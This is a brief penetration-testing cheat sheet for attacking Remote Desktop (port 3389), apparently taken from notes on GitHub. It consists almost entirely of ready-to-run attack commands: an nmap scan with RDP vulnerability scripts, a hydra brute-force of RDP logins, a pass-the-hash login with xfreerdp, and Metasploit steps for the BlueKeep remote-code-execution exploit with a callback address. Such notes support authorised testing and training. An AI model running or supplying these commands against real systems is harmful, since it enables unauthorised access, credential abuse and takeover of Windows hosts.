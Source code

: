 ```sh
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 $ip

# Brute Force
hydra -L $user_list -P $password_list $ip rdp

xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash


msfconsole  
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce  
set RHOSTS TARGET_IP  
set LHOST YOUR_IP  
exploit
```


### Sources

[hackingsarticles](https://www.hackingarticles.in/remote-desktop-penetration-testing-port-3389/)
